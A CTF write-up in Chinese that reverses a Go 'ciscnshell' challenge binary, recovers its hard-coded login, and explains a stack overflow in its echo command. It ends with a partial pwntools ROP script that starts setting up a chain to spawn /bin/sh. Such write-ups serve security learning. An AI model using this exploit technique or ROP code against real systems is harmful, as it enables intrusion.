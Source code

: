 go 题，re 大于 pwn 感觉。

恢复符号表用的是 [go_parser](https://github.com/0xjiayu/go_parser)，不过它还没有支持 go1.2x 版本，根据 Issue 把幻数(magic number)改了一下，让他勉强运行下来恢复了符号表（但是类型没有恢复出来）

伪代码看不成，细节全没了，一行一行汇编对着看的。

![image-20230528224435797](https://cdn.ova.moe/img/image-20230528224435797.png)

可以看到有一个提权。具体的代码在 `0x4C1900` 那个大块里，慢慢看总能看懂的。

这里简单说一下，首先它会将输入按空格分隔开，然后判断第一个的长度再继续对命令进行判断。

![image-20230528224811948](https://cdn.ova.moe/img/image-20230528224811948.png)

这里有一个 cert，然后 rbx 是命令分割后的个数，可以看到有 3 个，猜测格式是 `cert [user] [pass]`， user 在下面可以看到，是 `nAcDsMicN`（小端序）

密码的验证逻辑，感谢恢复了符号表，可以让我们一眼看出是 rc4 和 base64，不然还得嗯逆。

![image-20230528225009109](https://cdn.ova.moe/img/image-20230528225009109.png)

passphare 是 `F1nallB1rd3K3y`，密文是 `JLIX8pbSvYZu/WaG`，解密一下就可以知道密码是 `S33UAga1n@#!` 至此，提权部分结束。



之后提权可以用的指令是 `ls, cat, echo, chdir` 之类的，这里省去痛苦的逆向过程，直接看 vuln 函数 echo。

![image-20230528225243629](https://cdn.ova.moe/img/image-20230528225243629.png)

这里做了一个拼接，将诸如 `echo texta textb textc` 的 `texta textb textc`，前面因为分割空格给它分割了，再拼接回来。其中这里有一个条件是他们每一段的长度都不大于 0x200。

![image-20230528225420176](https://cdn.ova.moe/img/image-20230528225420176.png)

然后这里有一个很奇怪的逻辑，一眼有问题。他把这些数又拷贝到另一个地方，方便输出。但是遇到 `+` 便跳过拷贝。而且这里 i 的上限居然到了 0x400，调试就可以发现这里有一个栈溢出，因为我们的 i 每段是 0x200，而不限制段数的。但是 fuzz 的时候还发现，我们必须要利用 + 进行绕过，因为 char_ptr 也在 `v18 + i` 的内存空间上。所以合理布局，即可控制返回地址，然后打 ROP 即可。



整体难度不是很大，只是逆向很复杂，而且其实一开始没找到洞，是 fuzz 的时候偶然发现的 crash。

最后的 ROP 是 read 了一个 /bin/sh 上去然后直接 execve，比 orw 方便一点。

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

context(arch = 'amd64', os = 'linux')
context.log_level = 'debug'
context.terminal='wt.exe bash -c'.split(' ')

sh = process('./pwn')
elf = ELF('./pwn')
# libc = ELF('./libc.so.6')

sh.sendlineafter(b'ciscnshell$', b'cert nAcDsMicN S33UAga1n@#!')
gdb.attach(sh, f'b *0x444fec')
pause(3)

pop_rdi_ret = 0x444fec
pop_rsi_ret = 0x41e818
pop_rdx_ret = 0x49e11d
pop_rax_ret = 0x40d9e6
syscall_ret = 0x4636e9

payload = p64(pop_rdi_ret) + p64(0) + p64(pop_rsi_ret) + p64(0x589000) + p64(pop_rdx_ret) + p64(8) + p64(pop_rax_ret) + p64(0x0) + p64(syscall_ret)
```